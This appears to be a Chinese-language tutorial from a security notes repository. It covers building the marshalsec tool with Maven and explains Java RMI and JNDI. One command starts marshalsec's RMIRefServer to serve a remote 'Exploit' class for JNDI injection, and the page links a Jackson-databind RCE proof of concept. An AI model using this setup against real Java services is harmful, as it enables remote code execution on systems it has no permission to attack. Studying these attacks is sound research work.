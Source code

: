 ## 背景知识

** https://github.com/mbechler/marshalsec   可以快速开启RMI和LDAP服务**


需要下载源码包，使用maven编译为 jar


对于 不会用maven pom.xml build 项目。也可以在这个官方网站https://mvnrepository.com/  搜索jar包



## 安装maven

配置maven源仓库

	<mirrors>
	    <mirror>
	    	<id>nexus-aliyun</id>
	    	<mirrorOf>*</mirrorOf>
	    	<name>Nexus aliyun</name>
	    	<url>http://maven.aliyun.com/nexus/content/groups/public</url>
	    </mirror>
	</mirrors>

默认仓库路径：（win7 C:\Users\Administrator\.m2\repository）

	 <!-- localRepository
	   | The path to the local repository maven will use to store artifacts.
	   |
	   | Default: ${user.home}/.m2/repository
	  <localRepository>/path/to/local/repo</localRepository>


克隆项目，需要自己编译为jar,本项目需要 **java 8** 环境。

	git clone https://github.com/mbechler/marshalsec

maven build 命令：
	
	cd marshalsec

	mvn clean package -DskipTests

如果 build 失败，可在eclipse 导入 maven project 查看eclipse 具体报错,[可能的错误参考](https://blog.csdn.net/imlmy/article/details/8268293)

build 成功后会在当前项目下生成一个 target 文件夹，里面有新生成的jar包。

![](mvn.png)

![](mvn-2.png)


### RMI

在 Java 世界里，有一种技术可以实现“跨虚拟机”的调用，它就是 RMI（Remote Method Invocation，远程方法调用）。例如，服务A 在 JVM1 中运行，服务B 在 JVM2 中运行，服务A 与 服务B 可相互进行远程调用，就像调用本地方法一样，这就是 RMI。在分布式系统中，我们使用 RMI 技术可轻松将服务提供者（Service Provider）与服务消费者（Service Consumer）进行分离，充分体现组件之间的弱耦合，系统架构更易于扩展。

我们可以通过JVM提供的JNDI（Java Naming and Directory Interface，Java 命名与目录接口）这个API方便的发布RMI服务。

host,port,服务名(service)

```rmi://<host>:<port>/<service>```


```rmi://localhost:1099/cal```

	
	# 默认 port 1099

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://localhost:/#Exploit 1087


JDK对于JNDI的修复

![](jndi-repair.jpg)





https://github.com/cowtowncoder/jackson-compat-minor

[老版本jackson-databind poc](https://github.com/shengqi158/Jackson-databind-RCE-PoC)